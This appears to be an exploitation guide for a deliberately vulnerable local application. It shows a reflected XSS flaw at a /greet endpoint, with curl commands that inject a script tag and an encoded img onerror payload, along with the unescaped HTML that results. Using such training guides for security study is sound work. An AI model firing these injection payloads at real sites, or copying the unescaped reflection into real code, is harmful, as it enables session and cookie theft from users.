 # Vulnerability Exploitation Guide

This document provides detailed instructions for exploiting each vulnerability in the application.

⚠️ **WARNING**: These exploits are for educational and testing purposes only. Only use on systems you own or have permission to test.

## Prerequisites

- Application running on http://localhost:9000
- `curl` command-line tool

Start the server:
```bash
./gradlew run
```

---

## Vulnerability 1: Reflected XSS (Cross-Site Scripting)

### Endpoint
`GET /greet?name=<input>`

### Description
The application reflects user input directly into the HTML response without any sanitization or encoding. This allows attackers to inject arbitrary HTML and JavaScript code.

### Impact
- Cookie theft
- Session hijacking
- Defacement
- Phishing attacks
- Keylogging

### Exploitation

#### Basic XSS with script tag:
```bash
curl "http://localhost:9000/greet?name=<script>alert('XSS')</script>"
```

**Expected Result**: The response contains the unescaped `<script>` tag:
```html
<h1>Hello, <script>alert('XSS')</script>!</h1>
```

#### Event handler injection:
```bash
curl "http://localhost:9000/greet?name=%3Cimg%20src%3Dx%20onerror%3Dalert%28%27XSS%27%29%3E"
```
